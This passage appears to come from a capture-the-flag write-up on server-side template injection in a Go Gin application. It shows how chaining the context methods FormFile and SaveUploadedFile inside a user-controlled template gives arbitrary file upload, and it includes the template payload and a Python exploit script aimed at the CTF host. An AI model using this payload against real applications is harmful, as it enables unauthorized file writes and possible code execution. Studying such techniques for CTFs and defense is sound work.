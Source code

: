 ```golang
	return err
}
```

`SaveUploadedFile` fills the first and second requirements as it returns one value and appears to allow arbitrary file upload. As for the third requirement, there is no way to declare a `*multipart.FileHeader` object from a template. Would there be?

Enters the `FormFile` function:

```golang
// FormFile returns the first file for the provided form key.
func (c *Context) FormFile(name string) (*multipart.FileHeader, error) {
	if c.Request.MultipartForm == nil {
		if err := c.Request.ParseMultipartForm(c.engine.MaxMultipartMemory); err != nil {
			return nil, err
		}
	}
	f, fh, err := c.Request.FormFile(name)
	if err != nil {
		return nil, err
	}
	f.Close()
	return fh, err
}
```

The `FormFile` function fulfills the first requirement due to returning a `*multipart.FileHeader` and an `error` as second value. It also fulfills the third requirement as we can easily pass a `string` to the function. As for the second requirement, this function fetches a named file from our multipart form request which we control the contents of. Since this returns the exact type expected by `SaveUploadedFile`, this is the perfect gadget combination to achieve arbitrary file upload!

```
{{ .c.SaveUploadedFile (.c.FormFile "fish") .title }}
```

Testing locally, it works. We preview by sending a multipart form request which contains a file with the form input name `fish` and a URL query parameter `title` containg a file path. Good thing for us that the parentheses will be considered as only the first return value and not include the error.

```python
import requests

URL = "http://dev-7fe5c15819a3af65.email-template.ctf"
payload = {
    "template": """
{{ .c.SaveUploadedFile (.c.FormFile "fish") .title }}
"""
}

files = {'fish': open("afile", "r")}

r = requests.post(URL+"/update", json=payload)
print(r.status_code)
print(r.text)

r1 = requests.post(URL+"/preview?title=/example/file.txt", files=files)
print(r.status_code)
print(r.text)
```
